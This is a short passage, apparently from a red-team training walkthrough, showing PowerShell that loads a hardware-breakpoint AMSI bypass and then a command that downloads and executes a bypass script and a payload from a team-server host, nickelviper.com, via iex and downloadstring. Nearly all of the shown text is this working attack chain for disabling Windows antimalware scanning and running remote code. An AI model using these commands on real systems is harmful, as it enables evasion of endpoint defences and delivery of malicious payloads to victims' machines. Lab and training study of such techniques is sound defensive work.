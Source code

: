 ```cs

Add-Type -TypeDefinition $HWBP
[HWBP.Amsi]::Bypass()
```
  

We could save this off to a new file and host it at a different URI on the team server.  Then just call and invoke this bypass script before the payload.

PS C:\Users\bfarmer> iex (new-object net.webclient).downloadstring("http://nickelviper.com/bypass"); iex (new-object net.webclient).downloadstring("http://nickelviper.com/a")